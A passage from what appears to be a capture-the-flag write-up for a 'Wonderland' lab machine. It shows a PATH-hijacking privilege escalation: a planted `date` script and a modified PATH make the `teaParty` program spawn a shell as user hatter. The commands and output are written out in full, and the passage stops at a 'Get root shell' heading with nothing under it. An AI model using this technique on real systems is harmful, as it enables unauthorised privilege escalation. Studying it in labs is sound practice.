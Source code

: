 Create a new `./date`.

```bash
touch ./date;
chmod 777 ./date;
```

Put in a test.

```shell
nano ./date;
## When nano opens, add the following
whoami
## And save the file, Ctrl S, Ctrl X
```

Add the current directory to the PATH environment variables. 

```shell
export PATH="/home/rabbit/:$PATH"
```

Then run `date`..

```shell
rabbit@wonderland:/home/rabbit$ date
rabbit
## Can confirm date now returns the current users username
```

Run ./teaParty..

```shell
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter ## notice how date command now returns HATTER
Ask very nicely, and I will give you some tea while you wait for him
```

Lets create a reverse shell so we can hijack hatter.

```shell
nano ./date
## add the following
/bin/sh -i 
```

We get hatter shell

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by $ whoami
hatter
```

## Get root shell

